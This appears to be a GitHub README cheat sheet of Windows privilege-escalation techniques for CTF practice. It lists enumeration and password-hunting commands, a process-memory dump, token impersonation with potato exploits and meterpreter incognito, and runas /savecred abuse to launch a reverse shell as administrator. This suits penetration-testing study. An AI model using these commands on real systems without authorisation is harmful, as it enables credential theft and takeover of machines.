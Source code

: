 # Windows-PrivEsc-full-guide

Hi Everybody! I made this repo to share the privilege escalation techniques I tend to use on Windows based systems. Most of the tools ore working perfectly in CTF like competitions/exams. Use them and the tools on your own responsability, if you mess up an an coorporative or your own system, that's gonna be your fault and not mine! Now let's get into it.

## Enumeration

basic-enum

hostname
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
wmic qfe

user-enum

whoami
whoami /priv
whoami /groups
netuser
netuser "USERNAME"
net localgroup
net localgroup "GROUPNAME"
net accounts

network-enum

ipconfig
ipconfig /all
arp -a
route print
netstat -a

password-hunting

findstr /si password *.txt *.ini *.config
procdump.exe -accepteula -ma <proc_name_tasklist>

service-enum

sc query
wmic service list brief
sc query windefend

firewall-enum

netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config

## Paths:

### Kernel exploits:

Execute the systeminfo command on the compromised system and save it in a file. Later you can feed this file into automated tools like windows-exploit-suggester or wesng. Also, you can look up kernel exploits manually using google, bing or other search engines.

If you have a meterpreter shell you can execute the following command to list out all the available kernel exploits:

run post/multi/recon/local_exploit_suggester

Common ones in CTFs are MS16-014 and MS09-012, I saw these popping up multiple times.

### Token impersonation

Tokens are like cookies when accesing to a website. They are assigned to every user upon logging in. The local administrator users got two of these tokens, one with the same priviliges as the a regular user and one with admin priviliges. When the local admin trying to execute a program with admin priviliges a window will pop up warning the user that the program may make changes on the system (UAC).

To make these type of attack work the compromised user must have the SeImpersonatePrivilege enabled, you can check for this with the whoami /priv command. Try the following exploits:

https://github.com/ohpe/juicy-potato          | works on older machines better (win7 and older)

https://github.com/antonioCoco/RogueWinRM     | winrm service must be stopped to make this work (default on win10 but not on Windows Server 2019)

https://github.com/CCob/SweetPotato           | a combination of potato attacks

https://github.com/itm4n/PrintSpoofer         | my go-to for newer systems

If you have a meterpreter shell you can use the a module called incognito with the following commands:

load incognito
list_tokens -u
impersonate_token "USERNAME"

### Runas

Windows includes a useful command called RunAs that enables a user to run a program as a different user if credentials are known. If a user’s credentials are cached in the system, the Runas command can be run using the /savecred flag which will automatically authenticate and execute the command as that user.

Check for cached credentials using the following command:

cmdkey /list

If you find the cached credentials of an administrator create a reverse shell or download one, transfer it to the machine and execute it with the following command to get admin access:

runas /savecred /user:WORKGROUP\User "Shell to execute"

Make sure to set up a listener to catch the connection;).

For those who like to use tools for everything I recommend mimikatz and lasagne for these type of escalation attempts.






